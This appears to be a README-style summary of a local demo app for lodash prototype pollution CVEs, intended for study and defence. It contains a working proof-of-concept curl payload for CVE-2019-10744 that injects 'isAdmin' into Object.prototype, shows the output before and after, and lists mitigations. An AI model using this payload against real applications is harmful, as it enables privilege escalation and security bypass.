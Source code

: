 # Vulnerability Demonstration Summary

## ✅ Successfully Implemented

### CVE-2019-10744 (GHSA-jf85-cpcp-j695)
- **Status**: ✅ CONFIRMED VULNERABLE in lodash 4.17.11
- **Function**: `_.defaultsDeep()`
- **Payload**: `{"constructor": {"prototype": {"isAdmin": true}}}`
- **Result**: Successfully pollutes Object.prototype globally

### CVE-2018-3721 (GHSA-fvqr-27wr-82fm)  
- **Status**: ❌ NOT VULNERABLE in lodash 4.17.11 (fixed in this version)
- **Functions**: `_.merge()`, `_.mergeWith()`
- **Note**: These vulnerabilities affect earlier versions of lodash

## Application Features

1. **Web Interface** (http://localhost:3000)
   - Interactive forms for testing each vulnerability
   - Real-time status checking
   - Clean, documented interface with examples

2. **API Endpoints**
   - `/api/status` - Check prototype pollution status
   - `/api/defaults-deep` - Test CVE-2019-10744
   - `/api/merge` - Test CVE-2018-3721 (not vulnerable in 4.17.11)
   - `/api/merge-with` - Test CVE-2018-3721 (not vulnerable in 4.17.11)
   - `/api/reset` - Clean up prototype pollution

3. **Command Line Demo**
   - `node demo.js` - Shows vulnerabilities step by step
   - Clear output showing which CVEs are exploitable

4. **Testing Suite**
   - Playwright test configuration
   - Automated API testing
   - Screenshot generation capability

## Proof of Concept

**Before Exploitation:**
```json
{"prototypePolluded": false, "lodashVersion": "4.17.11"}
```

**Exploit Payload:**
```bash
curl -X POST http://localhost:3000/api/defaults-deep \
  -H "Content-Type: application/json" \
  -d '{"constructor": {"prototype": {"isAdmin": true}}}'
```

**After Exploitation:**
```json
{
  "success": true,
  "message": "defaultsDeep executed", 
  "prototypePolluded": true,
  "isAdmin": true
}
```

**Global Verification:**
```json
{"prototypePolluted": true, "isAdmin": true, "lodashVersion": "4.17.11"}
```

## Security Impact

The CVE-2019-10744 vulnerability demonstrates:
- **Prototype Pollution**: Ability to inject properties into Object.prototype
- **Global Impact**: All new objects inherit the polluted properties
- **Security Bypass Potential**: Properties like `isAdmin` can be injected
- **Persistence**: Pollution persists until explicitly cleaned

## Mitigation

- Upgrade to lodash 4.17.21+
- Validate and sanitize user input
- Use Object.freeze() on critical prototypes
- Implement proper input validation and CSP headers
